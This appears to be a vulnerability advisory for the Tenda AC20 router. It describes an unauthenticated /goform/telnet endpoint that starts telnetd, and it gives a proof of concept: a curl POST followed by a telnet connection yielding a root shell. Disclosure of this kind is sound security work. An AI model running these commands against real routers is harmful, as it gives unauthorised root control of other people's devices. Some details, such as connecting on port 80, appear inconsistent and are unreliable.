 # Tenda AC20 telnet TendaTelnet OS Command Injection

## Summary

A remote command execution vulnerability exists in the Tenda AC20 router (firmware V16.03.08.12), allowing attackers to activate the telnet service via a specific HTTP endpoint. The vulnerability resides in the `TendaTelnet` function, which directly executes system commands to start the telnet service without proper input sanitization, enabling attackers to gain interactive shell access to the router and execute arbitrary commands.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: https://www.tenda.com.cn/material/show/3264

*   **Component**: `/goform/telnet` (inferred from `websFormDefine("telnet", TendaTelnet);` )

*   **Vulnerability Type**: Command Execution via Service Activation (CWE-78)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability stems from the `TendaTelnet` function, which is bound to the `/goform/telnet` endpoint via `websFormDefine("telnet", TendaTelnet);`. This function is designed to control the telnet service of the router but lacks essential input sanitization for system commands. The function's execution flow directly triggers system commands to enable and start the telnet service, allowing attackers to exploit it via a crafted HTTP request.

Key operations in the `TendaTelnet` function are as follows:



1.  **Parameter Retrieval**: The function calls `GetValue("lan.ip", v17)` to obtain the router's LAN IP address, stored in the `v17` buffer.

2.  **Console Activation**: It enables the system console via `console_control(1)` and sets the `console_switch` configuration to `enable` using `SetValue`, followed by committing the configuration with `CommitCfm()`.

3.  **Telnet Service Management**:

*   It first terminates any existing telnet service instances with `system("killall -9 telnetd")`.

*   It then starts a new telnet service bound to the retrieved LAN IP via `doSystemCmd("telnetd -b %s &", (const char *)v17)`, where `%s` is replaced with the LAN IP from `v17`.

1.  **Response**: The function returns a success message "load telnetd success." via `websWrite` with a 200 HTTP status code.

Critical issues in this flow:

*   Activation of telnetd allows attackers to connect to the router's telnet service and execute arbitrary system commands with root privileges (typical for router environments).

## PoC: Exploit Steps

### 1. Activate Telnet Service

Send a POST request to the `/goform/telnet` endpoint to trigger the `TendaTelnet` function:


```
curl -i -X POST http://192.168.xxx.xxx/goform/telnet --http0.9
```
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


### 2. Connect via Telnet

```
telnet 192.168.xxx.xxx 80
```

Successful connection will provide an interactive shell:

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
